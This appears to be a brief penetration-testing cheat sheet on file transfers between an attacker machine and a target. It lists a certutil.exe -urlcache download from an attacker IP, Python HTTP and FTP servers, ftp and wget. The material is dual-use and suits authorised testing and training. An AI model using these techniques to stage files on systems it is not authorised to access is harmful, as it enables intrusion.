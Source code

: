 ### File Transfers

Certutil  
&ensp;`certutil.exe -urlcache -f http://10.0.0.200/file.txt file.txt`  
HTTP  
&ensp;`python -m SimpleHTTPServer 80`  
&ensp;`python3 -m http.server 80`  
Browser  
&ensp;Navigate to the file directly  
FTP  
&ensp;`python -m pyftpdlib 21`   on the attacker machine  
&ensp;`ftp 10.10.10.10`     on the windows machine going into the attacker machine  
Linux  
&ensp;`wget`  

